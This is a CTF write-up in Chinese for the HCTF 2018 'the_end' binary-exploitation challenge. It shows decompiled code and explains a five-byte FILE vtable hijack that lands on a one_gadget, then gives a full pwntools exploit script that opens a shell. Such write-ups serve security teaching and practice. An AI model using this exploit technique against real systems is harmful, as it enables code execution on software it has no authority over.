 # 2018-HCTF-the_end

程序除了 Canary 其他保护全开了。一开始给了 libc 基址，然后可以改 5 个字节，最后 exit 退出：

```cpp
void __fastcall __noreturn main(__int64 a1, char **a2, char **a3)
{
  signed int i; // [rsp+4h] [rbp-Ch]
  void *buf; // [rsp+8h] [rbp-8h]

  sleep(0);
  printf("here is a gift %p, good luck ;)\n", &sleep);
  fflush(_bss_start);
  close(1);
  close(2);
  for ( i = 0; i <= 4; ++i )
  {
    read(0, &buf, 8uLL);
    read(0, buf, 1uLL);
  }
  exit(1337);
}
```

因为最后的 exit 会调用到 vtable 中的 setbuf，所以只需要改这个指针就行。方法就是找一个假的 vtable，然后在把对应偏移处的地址改为 one_gadget。又因为只能修改 5 个字节，3 个字节用来修改 one_gadget，2 个字节来改 vtable，所以假的 vtable 原始的高 6 字节要跟原来的一样，而对应的 setbuf 偏移处的值得是一个 libc 上的地址：

```python
#!/usr/bin/env python
from pwn import *

context.log_level = 'debug'
context.terminal = ['tmux', 'split', '-h']

p = process('./the_end')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

one_gadgets = [0x45216, 0x4526a, 0xf02a4, 0xf1147]

p.recvuntil('here is a gift ')
libc_base = int(p.recv(14)[2:], 16) - libc.symbols['sleep']
info('libc_base = ' + hex(libc_base))
exit = libc_base + libc.symbols['exit']
one_gadget = libc_base + one_gadgets[1]
vtable = libc_base + libc.symbols['stderr'] - 8
info('vtable = ' + hex(vtable))
fake_vtable = libc_base + 0x3c5588
fake_setbuf = fake_vtable + 0x58

#gdb.attach(p)

p.recvuntil(', good luck ;)')
for i in range(2):
    p.send(p64(vtable + i))
    p.send(p64(fake_vtable)[i])
for i in range(3):
    p.send(p64(fake_setbuf + i))
    p.send(p64(one_gadget)[i])

info('one_gadget = ' + hex(one_gadget))
p.sendline('exec /bin/sh 1>&0')
p.interactive()
```
